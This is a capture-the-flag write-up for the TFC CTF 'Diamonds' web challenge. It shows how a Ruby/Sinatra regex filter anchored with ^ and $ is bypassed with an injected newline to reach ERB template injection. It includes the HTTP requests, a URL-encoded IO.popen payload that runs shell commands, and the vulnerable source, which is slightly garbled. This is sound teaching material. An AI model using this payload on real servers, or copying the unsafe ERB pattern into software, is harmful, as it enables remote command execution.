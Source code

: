 # TFC CTF

## WEB

### DIAMONDS

**Difficulty:** Medium

**Statement:** Write something nice that passes our filter.

***

The website indicates that regexes are in place:

![image](https://user-images.githubusercontent.com/49941629/182034164-957af5a6-c7f2-459b-93e9-09658f21f78b.png)

After some tests on the website and via the name of the challenge, I know that the site is written in Ruby.

The web server sends back via the headers the following information: `WEBrick/1.6.1 (Ruby/2.7.5/2021-11-24)`

Following a long search, I found the following resources that will help me to exploit this flaw in order to bypass the regex.
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/
- http://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

A few tries after, I notice that the regex only let the characters `[a-zA-Z0-9]` through.

Thanks to the above resources, I will modify my HTTP POST request to inject a newline `%0A` in order to perform a command injection if the regex configuration is wrong.

Default POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x
```

Modified POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x%0A
{}
```

I see that the regex is well bypassed :

![image](https://user-images.githubusercontent.com/49941629/182034446-27ac66fc-0f2c-48e0-a000-4d0e76f5dd87.png)

Via the following payload, I can inject commands :

```
input=x%0A
%3C%25%3D%20IO.popen%28%27ls%20-ah%20.%20%2F%27%29.readlines%28%29%20%20%25%3E
```

![image](https://user-images.githubusercontent.com/49941629/182034644-96e00ca0-c14e-49b2-aba2-d4fc2f50f84a.png)

I just have to `cat` the flag with the payload :

![image](https://user-images.githubusercontent.com/49941629/182034715-e10c7fa5-7c1f-4056-95f4-7a0fe26cf143.png)

Flag: `TFCCTF{02718f35dddc266e0ac40c0c0dcc98c34edd545678dc752ba9831b6d73bc706f}`

By curiosity, I recovered the contents of the file `input.rb` to see the configured regex :

```ruby
require 'sinatra/base'

class Animated_template < Sinatra::Base
configure do
  set: views, app / views
set: public_dir, public
end

get '/'
do
  @input = \"Write something nice here that passes our regex"
erb: 'index'
end

post '/'
do
  if params[: input] = ~/^[0-9a-z ]+$/i
@input = ERB.new(params[: input]).result(binding)
else
  @input = "That is far away from nice !!"
end
erb: 'index'
end

get '/style.css'
do
  erb: 'style'
end
end
```

